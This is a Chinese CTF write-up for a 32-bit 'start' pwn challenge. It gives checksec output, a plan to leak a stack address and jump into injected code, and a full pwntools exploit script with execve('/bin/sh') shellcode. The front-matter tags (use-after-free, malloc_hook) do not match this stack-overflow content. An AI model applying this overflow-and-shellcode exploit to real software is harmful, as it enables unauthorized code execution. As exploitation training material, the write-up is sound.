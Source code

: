 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

- `bss`

![image-20240125160222828](../assets/img/old_imgs/image-20240125160222828.png)

```shell
bamuwe@qianenzhao:~$ checksec start
[*] '/home/bamuwe/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

保护全关,但不能看伪代码,只能看汇编

思路:

1. 通过溢出泄露`buf(输入数据)`地址
2. 跳转到`buf`地址,写入`shellcode`
3. 跳转到`buf`地址,执行`shellcode`拿到`shell`

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
context.os = 'linux'
io = gdb.debug('./start')
padding = b'A'*0x14
buf_addr = 0x8048087
shellcode=b"\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80"

def leak():
    global buf_addr
    payload = padding+p32(buf_addr)

    io.sendafter( b"Let's start the CTF:",payload)
    buf_addr = u32(io.recv(4))
    print('buf_addr->',hex(buf_addr))
    return 0

def pwn():
    global shellcode
    payload = padding+p32(buf_addr+0x14)+shellcode
    io.send(payload)
    return 0

leak()
pwn()
io.interactive()
```

>需要注意的是,这里`buf`空间长度不足,所以需要另外找一个`shellcode`而不能使用直接生成的`shellcode`,直接生成的`shellcode`长度会在$21~60$之间

